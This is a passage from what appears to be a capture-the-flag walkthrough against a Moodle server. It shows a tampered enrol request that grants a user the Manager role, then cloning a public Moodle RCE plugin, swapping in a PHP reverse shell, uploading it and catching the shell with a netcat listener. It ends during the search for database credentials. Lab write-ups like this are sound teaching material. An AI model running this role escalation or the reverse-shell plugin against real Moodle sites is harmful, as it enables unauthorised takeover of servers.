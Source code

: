 Before clicking "Enrol user" capture the request and send it Burp repeater. (Allow all other request to go through)

Now let's route to Manuel Phillip's profile to identify that id is 24. Now change the payload to the following and send it, this will grant Manuel with Manager privileges, which will let us get access to Carter's account who is an admin of Moodle:

```
GET /moodle/enrol/manual/ajax.php?mform_showmore_main=0&id=5&action=enrol&enrolid=10&sesskey=eNTeHUZ7Dk&_qf__enrol_manual_enrol_users_form=1&mform_showmore_id_main=0&userlist%5B%5D=24&roletoassign=1&startdate=4&duration= HTTP/1.1
```

Now route to Lianne's profile as click on "Log in as administrator", then route to Plugin > Install Plugin.

Let's first download Moodle RCE created by HoangKien1020:

```bash
# Kali
git clone https://github.com/HoangKien1020/Moodle_RCE.git
cd Moodle_RCE
unzip rce.zip
rm rce.zip
vim rce/lang/en/block_rce.php
# Changed code to PenTest Monkey's php reverse shell.
zip -r rce.zip rce
```

Now upload the rce.zip plugin and start a netcat listener:  (`sudo nc -nvlp 443`)

Click "Continue" twice for the remote connection to start. We should get access to `www-data` user account.

## Privilege Escalation to Jamie

### Enumerating FreeBSD

Looking at /home directory and /etc/passwd, looks like the only two accounts are `jamie` and `steve`.

There is no python, wget, or curl on the box so we will need to manually enumerate the machine.

First let's locate the moodle directory:

```
find / -name moodle 2>/dev/null 
/usr/local/www/apache24/data/moodle
/usr/local/www/apache24/data/moodle/theme/boost/scss/moodle
/usr/local/www/apache24/data/moodle/lib/editor/tinymce/tiny_mce/3.5.11/themes/advanced/skins/moodle
/var/db/mysql/moodle
```

### Database Credentials in config file

There we are able to find database credentials through the config.conf file:
